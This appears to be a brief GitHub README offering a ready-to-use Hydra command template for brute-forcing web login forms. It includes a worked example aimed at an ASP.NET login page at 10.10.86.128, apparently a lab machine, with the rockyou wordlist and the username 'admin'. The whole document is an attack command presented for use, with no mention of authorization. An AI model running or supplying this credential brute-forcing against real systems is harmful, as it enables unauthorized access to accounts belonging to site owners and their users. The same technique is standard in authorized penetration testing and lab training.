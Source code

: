 # Hydra-Advanced

Reliably bruteforce webpage logins with this command:

```
hydra -l [USERNAME] -P [WORDLIST-PATH] [TARGET-IP] http-post-form "/[LOGIN-PAGE-PATH]:[REQUEST-PAYLOAD]:[LOGIN-FAIL-TEXT]"
```


Example:

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.86.128 http-post-form "/Account/login.aspx:__VIEWSTATE=J7%2FrKT%2FRbzXElHvOFArr4HX0BUp05PUs%2Bjl4fN5QtFnsigr6tjwFZkWaUW9RaCNkl5wcaaA9I71WXBKsdywllsO45a8kdE%2BO2GeciLswYLZgMhEIYMOLKvVE1g9%2FuxmOjygsPrfW43YX1axgD3V%2FmbHd2lx7jcwje7Qgkp065G2LekTQ&__EVENTVALIDATION=nIJxL4rdGJE3KYMzFDmVH35CAPYLfmVh68KpFWCfpmOAp8i4dLgnYkYLVP3UEDV8IiIqX6kXoIwujnQvd7xTK1Tbiqg5RF0fYL3q6nazJk37P%2BrLs8lq043TvaeMwGi4uqTkx2onf8prQt9NNxgtS4oXE0haNUx6xQId8O8kqlZfYRAG&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
```


************************************************************************************************************************
* [Square Brackets] indicate changeable fields, tailor them to your use case. Remove the brackets for this to function
************************************************************************************************************************
